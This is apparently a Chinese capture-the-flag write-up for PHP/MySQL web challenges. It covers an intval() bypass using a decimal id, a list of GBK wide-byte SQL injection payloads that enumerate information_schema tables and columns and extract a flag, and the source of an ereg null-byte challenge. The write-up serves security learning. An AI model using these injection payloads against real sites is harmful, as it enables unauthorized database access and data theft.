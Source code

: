 ## MYSQL
- 访问robots.txt得到
```php
TIP:sql.php

<?php
if($_GET[id]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```

代码中提示了不可以直接输入id=1024,这里得想办法来绕过才可以。因为这里intval() 是整型转换函数，输入1024.xxx之类的小数都是会转换为1024的。

payload：
```
sql.php?id=1024.333
```

## GBK Injection
```
1%df' and 1=1 --+
1%df' and 1=2 --+ 

-1%df' union select 1,2 --+
-1%df' union select 1,database() --+
-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+
-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x63746634 --+
-1%df' union select 1,flag from ctf4 --+
```

## /x00

**题目源码**
```php
    if (isset ($_GET['nctf'])) {
        if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
            echo '必须输入数字才行';
        else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
            die('Flag: '.$flag);
        else
            echo '骚年，继续努力吧啊~';
    }
```
